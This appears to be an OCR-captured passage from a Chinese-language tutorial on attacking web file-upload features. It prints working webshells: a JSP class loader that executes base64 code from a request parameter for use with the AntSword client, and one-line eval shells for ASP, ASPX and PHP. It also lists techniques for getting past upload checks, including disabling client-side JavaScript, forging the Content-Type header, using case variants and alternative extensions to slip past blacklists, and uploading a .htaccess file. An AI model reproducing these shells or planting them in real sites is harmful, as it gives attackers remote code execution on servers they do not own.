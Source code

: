 ```jsp
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>


<!-- 使用蚁剑连接，密码ant，编码选base64-->
```

asp : `<% eval request("lzx")%>`  

aspx: `<%@ Page Language="Jscript"%><%eval(Request.Item["lzx"],"unsafe");%>`  

php : 

```php
1. <?php @eval($_POST['lzx']);?>    //提供了一个代码执行的环境
2. <script language="php">@eval_r($_POST['pwd'])</script>    7.0以上		php无效
```
### **客户端js校验绕过**
- 修改或禁用js，或者抓包修改文件后缀。
-  判断方法，没有流量经过burpsuite就提示错误
### **服务器端校验绕过**
- **服务端对数据包的MIME进行检查！**
    - 文件头content-type字段校验（image/gif）
    - 配置Burp Suite代理进行抓包，将Content-Type修改为image/gif，或者其他允许的类型。
- **服务器端检测文件名后缀**
  - **黑名单检测**
    
    - **文件名大小写绕过**：使用Asp、PhP之类的文件名绕过黑名单检测
    - **名单列表绕过**：
        - 用黑名单里没有的名单进行攻击，asp asa cer aspx。
        - jsp jspx jspf
        - php3,phtml.phps.php5,pht,可能虽然上传成功了，能解析必须满足:  
            Apache的 httpd.conf 中有如下配置代码：
            `AddType application/x-httpd-php .php .phtml .phps .php5 .phtml`
    - **上传 .htaccess 伪静态文件**，  
      （适用于黑名单检测方式，黑名单中未限制.htaccess）  
      该文件仅在Apache平台上存在，IIS平台上不存在该文件，该文件默认开启，启用和关闭在httpd.conf文件中配置。  
      该文件的写法如下：
      用伪静态需要保证：①mod_rewrite模块开启；②目录设置是AllowOverride All；
    
